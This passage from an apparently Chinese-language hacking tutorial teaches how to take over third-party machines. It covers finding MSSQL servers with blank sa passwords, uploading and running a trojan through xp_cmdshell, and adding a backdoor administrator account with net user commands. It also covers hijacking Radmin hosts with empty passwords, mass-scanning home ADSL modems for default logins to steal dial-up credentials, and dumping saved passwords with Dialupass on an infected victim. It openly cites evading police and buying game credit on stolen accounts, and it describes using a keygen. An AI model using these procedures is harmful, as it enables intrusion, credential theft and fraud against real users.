

扫描参数设置完毕后，返回到 X-Scan 的主界面，点击那个绿色的右三角号按钮就可以开始扫描了。在 X-Scan 的左侧显示的是扫描主机列表信息和扫描到的漏洞信息，右上侧是当前扫描的详细情况，例如主机、累计时间、插件时间、活动线程等信息。右下侧是当前扫描的详细进度、扫描得到的漏洞信息、扫描过程中的错误信息，如图 1.25。

在 X-Scan 的扫描全部完成后，它会自动生成一个 HTML 格式的报告，报告中详细阐述了哪些主机存在安全隐患和安全漏洞，当然还会有解决方案等信息。

| 主机地址 | 端口/服务 | 服务漏洞 |
|---|---|---|
| 192.168.10.10 | ms-sql-s (1433/tcp) | 发现安全漏洞 |

| 类型 | 端口/服务 | 安全漏洞及解决方案 |
|---|---|---|
| 漏洞 | ms-sql-s (1433/tcp) | SQL-Server 弱口令 |
| 返回项 | - | SQL-Server 弱口令: sa/空口令 |

从报告中可以看出，IP 地址为“192.168.10.10”和“192.168.10.250”这两台主机中 MSSQL 的 SA 账号密码为空，如图 1.26。

| 主机地址 | 端口/服务 | 服务漏洞 |
|---|---|---|
| 192.168.10.250 | ms-sql-s (1433/tcp) | 发现安全漏洞 |

| 类型 | 端口/服务 | 安全漏洞及解决方案 |
|---|---|---|
| 漏洞 | ms-sql-s (1433/tcp) | SQL-Server 弱口令 |
| 返回项 | - | SQL-Server 弱口令: sa/空口令 |





图1.27

使用SQL连接工具获得肉鸡的最高权限。打开SQL综合利用工具，在“SQL服务器设置”中输入扫描得到的肉鸡信息，例如IP地址、用户名（SA）、密码（空）等，点击“确定”按钮后就会进行连接。

连接，如图1.27，在成功连接后状态栏也会有相应的提示。打开“利用目录”下的“上传文件”功能，在“要上传的文件”中点击“浏览文件”来选择我们的木马，在“上传文件后保存在”中输入“C:\mm.exe”，也就是将上传后的木马保存为服务器C盘下名为mm.exe的文件，如图1.28。



图1.29



图1.28

设置完毕后点击“上传文件”按钮，工具就会自动创建临时表、插入二进制数据、导出文件等操作。在上传完毕后，下一步就是执行了，MSSQL的扩展存储过程中有一个可以执行系统命令的过程，名为“XP_CMDSHELL”，我们就利用它来执行已经上传保存的文件。



图1.30



图1.31

在 C 盘的 mm.exe 文件。打开“利用目录”下的“执行DOS命令”功能，首先执行 `dir c:\` 命令查看一下我们的木马文件是否已经上传成功，如图1.29，确认上传成功后，就可以执行 `start c:\mm.exe` 命令，也就是远程执行木马了，如图1.30。如果木马顺利的在服务器上安装成功，就可以打开你的客户端程序来等待服务器上线了，如图1.31。

如果安装 MSSQL 的主机为 WIN2000、WIN2003 的话，还可以考虑给主机添加一个帐号，然后使用3389登录对方主机，只需要在“执行DOS命令”功能中输入以下命令：

```
net user x x /add
net localgroup administrators x /add
```

就可以添加一个帐号和密码都为 X 的管理员帐号了，然后我们在本地电脑中打开远程桌面连接服务器登录即可，如图1.32。

Radmin 是一款著名的远程控制软件，它可以远程管理公司或个人计算机以实现远程办公和维护，可以对远程电脑进行完全控制、屏幕监视、文件管理、远程DOS操作等。只需要被控制主机执行和安装好连控端程序，设置好连接端口和密码，就可以利用控制端进行远程控制了。Radmin 的这些不俗的特点也使得很多网络管理员把它安装在服务器上或其他被监控的主机上，如果 Radmin 的密码被留空的话，我们只需要双击一下就可以控制整个服务器了。

打开 Radmin 弱口令探测工具“4899探测器”，因为 Radmin 默认开启的端口为4899，



图1.32

所以该工具因此而得名。它可以自动扫描一段 IP 地址中的主机是否开放了4899端口，是否存在弱口令等信息，我们只需要设置好参数就可以等着收获肉鸡了。在“起始IP”和“终止IP”中输入要扫描IP的地址范围，根据自己的网络环境设置“总线程数”和“连接超时”这两个选项，如图1.33。设置完毕后点击“开始搜索”按钮就开始扫描了。在扫描过程中，“搜索进度”会显示当前正在扫描的IP地址，“总线程数”右侧会显示当前开放了多少个扫描线程数。扫描结束后会在工具的右上侧显示出扫描的结果，可以使用鼠标选择后复制即可，如图1.34。



图1.33

从上图中可以看到IP地址为“192.168.10.250”的主机存在Radmin弱口令漏洞，我们打开Radmin的连接工具，点击工具栏的第二个图标按钮来新建一个连接，在“常规”中输入刚才扫描得到的IP地址“192.168.10.250”，端口保持默认的4899即可，“连接名称”只是用来标识这个连接而已，大家可以随便输入，最后点击“确定”按钮完成连接设置，如图1.35。返回到Radmin的主界面后，在新建的连接上点右键来选择—



图1.34

## 1.2.3 入侵总结

个连接方式，比如完全控制、屏幕监控、远程TELNET、文件管理、关闭系统等，就可以进入控制界面了，如图1.36，由于对方Radmin的密码为空，所以不用输入密码就可以连接成功了，Radmin的制速度还是相当不错的，如图1.37。

和利用135端口抓肉鸡一样，大家不要忘记在XP系统中打上连接数补丁，因为在扫描的时候需要打开许多的并发连接。

用服务所开放的端口一般不会被ISP屏蔽，所以可以使用自己的电脑来进行扫描。另外扫描应用服务所抓来的肉鸡中，以服务器主机居多，除非个人主机安装用于测试使用。由于服务器的安全性状况一般会比个人主机强的多，所以使用这种方法扫描得到的服务器肉鸡可能不如使用135端口抓鸡要来的多，但是服务器的价值远比个人主机要大，因为服务器一般情况下是不会关机的，并且网络带宽通常会比个人主机大很多，网络环境对服务器的限制也相当少。大家也可以在一个服务器上架设扫描平台，扫描其他的135肉鸡或者服务器肉鸡，相信就会有更大的收获了。

## 1.3 ADSL弱口令入侵

目前大多数的家庭用户都是通过ADSL接入Internet的，而这其中大部分又都是ADSL包月消费，ADSL小猫也基本上都是由电信网通等ISP赠送给用户使用的，许多ADSL拨号上网的用户都没有修改过自己的ADSL猫的管理界面的默认密码，这样我们就可以打开ADSL管理界面查看到拨号上网的帐号和密码了。可能会有小菜要问，获得别人的ADSL帐号和密码又有什么用呢？目前来说基本上有两种用途：第一种，使用别人的ADSL上网，这样上网的好处是可以伪装自己，让警察叔叔查不到自己，干了坏事也不用慌张，因为有人给咱们扛着。第二种，由于网通电信等ISP运营商为了更好的谋财就依托ADSL帐号推出了不少的增值服务，其中就有大家喜欢的购买游戏点卡、充值QB等业务，所以有些人就使用别人的ADSL给自己充点卡、QB等。

### 小知识：什么是ADSL

> ADSL（Asymmetric Digital Subscriber Line，非对称数字用户线路），它是一种非对称的DSL技术，所谓非对称是指用户线的上行速率与下行速率不同，上行速率低，下行速率高，特别适合传输多媒体信息业务，如视频点播(VOD)、多媒体信息检索和其他交互式业务。ADSL在一对铜线上支持上行速率512Kbps—1Mbps，下行速率1Mbps—8Mbps，有效传输距离在3—5公里范围以内。

### 1.3.1 ADSL弱口令入侵实战

我们要如何批量的寻找没有更改ADSL猫默认密码的用户呢？可以使用ADSL密码终结者通过远程扫描，将这些用户找出来。ADSL密码终结者采用多线程设计，一小时可以扫描近6万个IP地址，自动扫描具有管理界面的ADSL小猫，并且使用自带的密码字典进行尝试登录，然后自动找到拨号上网的帐号和密码。

首先需要安装这个工具，它的安装非常简单，一路点击NEXT就行了。由于它是一个共享软件，需要注册，幸好我从网上找到了注册机。双击桌面上的快捷方式来启动ADSL密码终结者，点击菜单栏中的“输入注册码”选项，程序已经给出了产品序列号“2360994932”。我们打开附带的注册机，在其“序列号”一栏中输入产品序列号“2360994932”，点击“Get”按钮后就可以计算出注册码了，然后把得到的注册码复制到ADSL密码终结者的注册码输入栏，点击“确定”后就可以完成注册了，重新启动工具后我们就可以使用已注册的版本了，如图1.38。

切换到ADSL密码终结者的“扫描选项”，可以将几个不同的IP范围添加到IP列表中，扫描时将会自动按照扫描线程数分配这些IP到不同的线程中去，注意不要一次加入太多。在“开始IP”中输入要扫描IP范围的起始IP地址，比如“221.9.13.1”，在“结束IP”中输入IP范围的结束IP地址，比如“221.9.17.1”，在最下方的状态栏中还会出现此IP范围内总的IP数目。然后我们点击“加入列表”将此IP段加入到IP列表中。“备注”可以不用填写，程序会自动加上的。在左下方的“扫描选项”中根据自己实际的网络情况进行设置，线程数越大，扫描的速度越快，但同样也会占用大量的系统资源，如果电脑性能不高或者网络带宽不够，可以调小线程数。由于ADSL小猫的WEB管理界面一般都开放在80端口上，所以端口输入80即可。

右下方的“ADSL密码字典”是工具自带的，工具将从其中依次选取进行探测，当然我们也可以进行手工添加，比如没有收集在其中的用户名和密码，按照“用户名=密码”的格式添加到字典文件中，一行一个信息，来形成自己的字典文件，如图1.39。

点击“扫描”进入扫描选项，点击中间的“开始”按钮；工具就会自动开始扫描指定IP范围内的每一台主机了。在扫描出一条IP后，ADSL密码终结者还会自动查询出其所在地址位置。在扫描过程中，如果我们想停止扫描，那么点击“停止”按钮后，程序并不会马上停止，由于采用了多线程设计来加大扫描的速度，所以要等所有线程全部停止后才会真正的停下来，有时线程数过多，可能会有部分线程挂住而导致无法停止，此时就只有关闭程序重新打开了，这也是Windows系统多线程程序中特有的现象。如果对方使用的是ADSL上网方式，并且ADSL设备具有远程管理界面，工具就会自动测试是否为默认密码，如果管理员用户名和密码存在于密码字典中，工具就会自动使用用户名和密码登录到对方ADSL的管理界面，自动搜索拨号上网的帐号和密码，然后显示在列表中，如图1.40。注意：凡是显示在列表中的就表示该IP是ADSL设备，并且可以使用默认的ADSL用户名和密码登录并管理。如果对方ADSL所用的芯片是程序“认识”的芯片，则会自动将网页中的上网帐号和密码找出并记录下来。一会儿的工夫我们就扫描出好几个ADSL的帐号和密码了。

如果大家不是很清楚哪些IP地址段是ADSL用户所使用的，那么可以切换到“工具”选项，ADSL密码终结者整合了目前最新的IP数据库，可以针对性的扫描某一个省、市范围的ADSL用户，支持根据省、市名来查询IP地址段，或根据IP地址来查询其所在的地理位置。比如我们想查找淄博地区的IP地址库，可以在“查询字段”中输入“淄博”，然后点击“查询”按钮就可以列出全部淄博的IP地址库，而且还支持右键点击选中的IP地址段来直接将其添加到扫描选项中，如图1.41。再切换到“密码管理”选项，工具为了方便大家查找特定的帐号密码，会把所有破解出的帐号和密码自动保存在数据库中，并且还会附加上该帐号所在省市名称，同一帐号在不同时间被扫描够……还可以在其中通过使用IP地址、用户名、密码、地址等关键字来进行查找。

在ADSL上网用户中还有一部分并没有使用ADSL小猫进行连接，而是在本机系统上直接创建的ADSL连接，相信大家在扫描135肉鸡的时候也遇到了不少吧。那么如何获取他们的ADSL帐号和密码呢？这就得使用ADSL帐号密码恢复工具“Dialupass”了，这个工具最近刚刚更新过，可以稳定地运行在VISTA系统中。如果这台主机已经中了你的木马，我们可以趁对方不在电脑旁的时候运行这个小工具，就可以看到ADSL帐号和密码了，使用起来非常简单，如图1.43。倘若我们担心会被发现或者对方就是死懒在电脑旁不走的话，可以考虑使用CMD来执行这个工具，执行的命令为：

```
dialupass /allusers /stext "c:\1.txt"
```

如图1.44，就可以将所有的ADSL帐号密码信息导出到C盘下的1.txt文件中，然后只需要将这个1.txt传回来或者使用`type c:\1.txt`命令查看即可，如图1.45。

#### 1.3.2 入侵的原理

这个小工具为什么能够自动登录ADSL小猫呢？它又是如何自动获取ADSL帐号密码的呢？让我们手工登录ADSL小猫来获取一次ADSL的帐号密码，就以我扫描到的一个本地ADSL账号来进行演示吧，它的IP地址为“221.9.16.80”，ADSL小猫账号密码都为“admin”。打开IE浏览器，在地址栏输入“http://221.9.16.80”来登录ADSL小猫，如图1.46，它会提示我们输入小猫的管理账号密码，我们输入账号和密码后就可以进入ADSL小猫的管理界面了。由于本地网通发放的ADSL小猫是华为的MT800，所以需要在左侧打开“ATM设置”菜单，这时候就可以看到ADSL的账号了，如图1.47，那么ADSL的密码是如何获取到的呢？由于在HTML中一般是将密码显示为星号或者圆点，但其本身的HTML文件中的参数值却是真实的，所以我们需要查看这个页面HTML源文件。在网页空白处点右键选择“查看源文件”，使用查找功能查找刚才在页面中显示的ADSL账号，这时候可以看到保存口令的HTML控件就在附近，就是那个名字为“MacWanPsswd”的控件，它的真实值为123456，也就是说ADSL的密码也就是123456，如图1.48。不同ADSL小猫中的关键字有可能